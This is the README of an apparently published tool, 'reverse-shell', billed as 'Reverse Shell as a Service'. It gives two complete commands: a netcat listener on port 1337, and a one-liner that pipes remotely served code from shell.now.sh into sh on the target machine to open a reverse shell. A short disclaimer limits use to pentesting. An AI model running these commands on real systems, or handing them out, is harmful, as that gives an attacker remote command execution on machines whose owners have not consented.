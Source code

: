 # reverse-shell

> Reverse Shell as a Service

[![Build Status](https://travis-ci.org/lukechilds/reverse-shell.svg?branch=master)](https://travis-ci.org/lukechilds/reverse-shell)
[![Coverage Status](https://coveralls.io/repos/github/lukechilds/reverse-shell/badge.svg?branch=master)](https://coveralls.io/github/lukechilds/reverse-shell?branch=master)
[![npm](https://img.shields.io/npm/v/reverse-shell.svg)](https://www.npmjs.com/package/reverse-shell)

Easy to remember reverse shell that should work on most Unix-like systems.

## Usage

### 1. Listen for connection

On your machine, open up a port and listen on it. You can do this easily with netcat.

```
nc -l 1337
```
### 2. Execute reverse shell on target

On the target machine, pipe the output of https://shell.now.sh/yourip:port into sh.

```
curl https://shell.now.sh/192.168.0.69:1337 | sh
```

### 3. Don't be a dick

This is meant to be used for pentesting or helping coworkers understand why they should always lock their computers. Please don't use this for anything malicious.

## License

MIT © Luke Childs
